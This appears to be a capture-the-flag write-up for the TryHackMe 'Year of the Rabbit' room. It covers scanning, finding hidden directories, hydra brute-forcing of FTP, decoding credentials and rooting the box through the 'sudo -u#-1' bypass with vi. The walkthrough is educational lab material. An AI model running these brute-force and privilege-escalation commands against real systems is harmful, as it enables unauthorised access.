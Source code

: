 # Year of the Rabbit

***
![](https://tryhackme-images.s3.amazonaws.com/room-icons/c062ef0e0b4f70e51a2dafc5fc2bca0e.jpeg)

## Difficulty = Easy

***

Running our nmap scan we have -:


```bash
# Nmap 7.94 scan initiated Mon Oct 23 04:16:09 2023 as: nmap -p80,22,21 -sCV -T4 -v --min-rate=1000 -oN nmap.txt 10.10.184.53
Nmap scan report for 10.10.184.53
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 23 04:16:29 2023 -- 1 IP address (1 host up) scanned in 19.79 seconds
```

We can't login to `FTP` as anonymous user 


![](https://i.imgur.com/Ue9ZHST.png)


Navigating to port `80/HTTP` we have a default Apache2 website



![](https://i.imgur.com/nGondix.png)


- No vital information on `Page-Source`
- status code `404` in both `/sitemap.xml` and `/robots.txt`


Running dir/file bruteforce with `dirseach` we have only the `/assets` page


![](https://i.imgur.com/XT1GnQk.png)


Navigating to the `/assets` the first link truly got us **rick-rolled** 😂

![](https://i.imgur.com/EY5oCOM.png)

The second link, `/assets/style.css`, on the other hand gives us this information


![](https://i.imgur.com/YRKU9Of.png)


Checking `/sup3r_s3cr3t_fl4g.php` refers us to `/sup3r_s3cr3t_fl4g/` and then ask us to turn off **javascript**

![](https://i.imgur.com/EpMMxOe.png)

If you click `Ok` you get **rick-rolled** one more time 😭😂


![](https://i.imgur.com/3cJHyMG.png)

Making a request to `/sup3r_s3cr3t_fl4g/` with `curl` we can see we have a message, No wonder we are being referred 🤔


![](https://i.imgur.com/1W79sJq.png)

Well, start up `burpsuite` and intercept the `/sup3r_s3cr3t_fl4g.php` page then **send to repeater**

![](https://i.imgur.com/7rpCiII.png)


Click `Follow redirection` at the top-bar

![](https://i.imgur.com/KFz9j1T.png)



Nice, looks like this is what they don't want us to see, we are been referred to the page, `/intermediary.php?hidden_directory=/WExYY2Cv-qU`, then from here again to `http://10.10.184.53/sup3r_s3cr3t_fl4g.php`,
where the final **rick-roll** video plays

![](https://i.pinimg.com/originals/5f/d8/ca/5fd8ca9ef493ae16d1896d32a81cd193.gif)

Accessing `/intermediary.php?hidden_directory=/WExYY2Cv-qU` , i decided to use the **hidden_directory** parameter value directly, which is `/WExYY2Cv-qU`, we have an image

![](https://i.imgur.com/My70Hyn.png)

Download the image with the following command

```bash
$ wget http://10.10.184.53/WExYY2Cv-qU/Hot_Babe.png
```


Running the `strings` command on the image and scrolling down gives us this


![](https://i.imgur.com/qxi9ENY.png)


Running this command saves the passwords to a file called `passwd.txt`

```bash
$ strings Hot_Babe.png | tail -n 82 > passwd.txt
```

We can therefore bruteforce the `FTP` protocol with the following syntax using `hydra`

```bash
$ hydra -l ftpuser -P ./passwd.txt ftp://10.10.184.53 -V
```


![](https://i.imgur.com/wZKSAgI.png)

Login in with the username and password, `ftpuser:5iez1wGXKfPKQ` we have **Eli's_Creds.txt**


![](https://i.imgur.com/vNzuslp.png)

Download the file to your base machine with the `mget` command

![](https://i.imgur.com/fgr67EY.png)


Concatenating the `Eli's_Creds.txt` file gave us a brainfuck encoded text


![](https://i.imgur.com/cssdhQY.png)



Converting the brainfuck gave us **Eli's** credential

![](https://i.imgur.com/2AleGT7.png)

Login in via `SSH` we have a message from **root** to user **Gwendoline**


![](https://i.imgur.com/UkcTxv8.png)

running the `locate` command on the keyword **s3cr3t** we have

![](https://i.imgur.com/fRwgNc6.png)



Concatenating it gives us user **gwendoline** password

![](https://i.imgur.com/DFdLYhu.png)

switch user to **gwendoline**

```bash
$ su gwendoline
```

Running `sudo -l`, would i say we don't have permission to run `/usr/bin/vi /home/gwendoline/user.txt` as **root** 😆 


![](https://i.imgur.com/941ycmx.png)

After much lookups, using this payload we where able to view the file


```bash
$  sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

![](https://i.imgur.com/Tb7Whlt.png)

we can therefore get a root shell by adding **semi-colon** (`:`) and then `!/bin/bash`

![](https://i.imgur.com/TVsf3qv.png)

Hell yeah, we are root


![](https://i.imgur.com/mBlybTF.png)

Have a nice day ⛹️‍♂️


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>




